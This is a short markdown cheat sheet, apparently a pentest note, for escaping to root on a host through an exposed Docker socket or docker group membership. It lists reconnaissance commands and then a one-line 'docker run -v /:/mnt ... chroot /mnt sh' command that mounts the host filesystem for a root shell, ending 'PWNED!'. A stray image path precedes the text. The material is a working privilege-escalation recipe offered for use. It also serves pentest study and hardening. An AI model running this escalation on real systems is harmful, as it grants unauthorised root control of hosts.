 # REQUIREMENTS:

### 1) User must be in docker group to run docker commands (or root in the container)

### 2) Docker socket must be exposed

## STEPS:

#### 1) cd /var/run

#### 2) ls -la | grep sock

#### 3) id/groups

#### If user has permissions to run docker commands then we:

#### 4) Mount host volumes (Download an alpine image to host)

#### 5) docker run -v /:/mnt --rm -it alpine chroot /mnt sh

#### 6) PWNED!
